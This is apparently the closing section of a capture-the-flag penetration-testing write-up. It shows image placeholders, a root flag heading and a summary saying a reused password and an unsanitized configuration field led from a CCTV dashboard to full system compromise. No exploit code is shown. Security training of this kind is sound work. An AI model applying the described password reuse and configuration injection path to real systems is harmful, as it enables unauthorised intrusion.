


---

# Root Flag





---

# Closing Case

This machine teaches a timeless lesson in penetration testing: one reused password and one unsanitized configuration field can turn an ordinary CCTV dashboard into a complete system compromise. 🔍

